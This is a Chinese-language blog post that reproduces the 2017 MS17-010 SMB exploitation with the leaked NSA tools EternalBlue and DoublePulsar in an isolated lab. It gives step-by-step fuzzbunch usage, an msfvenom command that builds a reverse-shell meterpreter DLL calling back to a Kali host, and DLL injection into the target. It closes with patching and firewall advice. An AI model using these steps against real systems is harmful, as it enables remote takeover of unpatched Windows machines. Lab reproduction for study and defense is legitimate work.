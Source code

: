 ```yaml
---
title: NSA Enternalblue + Doublepulsar 复现 SMB 漏洞
date: 2017-04-27 17:18:08
tags: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
categories: Exploit
keywords: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

### **0x01 影响范围**

下图中列举了工具中相关模块所影响的服务和系统。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/92526918-file_1493343199647_16966.jpg)

### **0x02 漏洞测试**
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

#### **1. 测试环境**

|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

#### **2. 测试流程**
##### **1）运行 fuzzbunch 框架**
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/95094523-file_1493344655277_8614.png)

##### **2）调用 Eternalblue 攻击系统**
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/54184530-file_1493344922256_adf5.png)
下面需要选择 `1）FB` 模式。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/61786740-file_1493345114952_f2f3.png)
接着继续回车，直到成功运行攻击模块。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/73280707-file_1493345362094_157db.png)

##### **3）Metasploit 生成恶意 DLL**
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

##### **4）开启 msf 监听**
在 Kali Linux 下，运行 msf，监听 6666 端口。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/80220500-file_1493346556508_101d9.png)

##### **5）调用 Doublepulsar 注入 DLL**
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/11038492-file_1493347262266_5c5.png)
注入成功后将返回如下信息。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/68357990-file_1493347997057_2e1f.png)
但是这里也会出现个问题，多次注入之后目标系统会出错重启。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/56721083-file_1493348716416_6f00.png)

##### **6）建立连接**
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/82624178-file_1493348105266_34db.png)

### **0x03 防御措施**
#### **1. 尽快升级系统补丁**

#### **2. 开启防火墙，并限制 445 端口**
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```
----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
